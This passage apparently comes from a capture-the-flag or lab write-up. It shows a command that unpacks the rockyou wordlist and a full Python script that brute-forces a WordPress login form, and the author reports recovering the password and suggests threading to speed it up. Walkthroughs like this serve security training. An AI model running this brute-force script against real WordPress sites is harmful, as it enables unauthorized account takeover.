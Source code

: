 Then I developed a brute force tool with python, and used the rockyou wordlist.

```console
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > wordlist.txt
```

```python
#!/usr/bin/env python3

import requests
import sys
from colorama import init,Fore

if len(sys.argv) != 4:
    print(f"Usage: {sys.argv[0]} [IP] [User] [Wordlist.txt]")
    sys.exit(0)

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

target=sys.argv[1]
user=sys.argv[2]
wordlist=sys.argv[3]

def login(user,passwd):
    values={
            "log":user,
            "pwd":passwd,
            "wp-submit":"Log+In"
            }

    try:
        r=requests.post(f"http://{target}/wordpress/wp-login.php",data=values)
        return r.text
    except:
        pass

wordlist=open(wordlist).read().splitlines()

if __name__=="__main__":
    for password in wordlist:
        ans=login(user,password)
        if "ERROR" in ans:
            print(f"{gray}[-] User: {user} Password: {password:10}{reset}")
        else:
            print(f"{green}[+] User: {user} Password: {password:10}{reset}")
            sys.exit(0)
```

I run the script and after a time we have the password.

**note:** for do this faster you can use threads.
